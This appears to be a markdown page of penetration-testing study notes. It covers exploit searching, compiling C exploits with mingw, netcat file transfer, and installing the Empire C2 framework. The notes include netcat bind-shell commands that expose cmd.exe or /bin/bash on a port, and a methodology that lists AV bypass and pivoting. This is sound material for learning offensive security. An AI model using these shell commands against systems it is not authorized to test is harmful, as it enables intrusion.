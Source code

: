 # Exploitation
### Vulnerability Scanning
#### Banner Grabbing
- `nmap -sV --script=banner 10.10.10.10`
### Exploits
#### Searching for Exploits
- Exploit-DB
- Rapid7
- Github
- Packet Storm
- Searchsploit -- `searchsploit -m 3948`
- exploitdb-bin-sploits -- on github for compiled exploits
#### Fixing Exploits(for C)
- install mingw-w64
- install gcc
- `i686-w64-mingw32-gcc exploit.c -o exploit` --- to  make it executable
### Shells
#### Netcat
- `nc -nlvp 1234`
- `nc -nlvp 1234` > file.txt  --- recieve the file
- `nc -nlvp 1234` < file.txt  --- send the file
- For this we can use python HTTP server.
#### Bind & Reverse Shell
- `nc -nlvp 1234`
- `nc.exe -nlvp 1234 -e cmd.exe` --- to run in windows using cmd
- We have to send nc.exe to windows in order to excute it there.
- `nc -nlvp 1234 -c /bin/bash` --- linux
- [PayloadAllTheThings Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- [Reverse Shell Generator](https://www.revshells.com/)
### Exploitation Frameworks
- sudo apt-get install powershell-empire starkiller -y
- sudo powershell-empire server
- sudo powershell-empire client
### Linux Exploitation
- 







### Exploitation Methodology
- Identify Vulnerable services
- identify & prepare exploit code
- gaining access
	- Automated - Metasploit Framework (MSF)
	- Manual
- Obtain remote access to the target
- Bypass AV detection
- Pivot to other systems
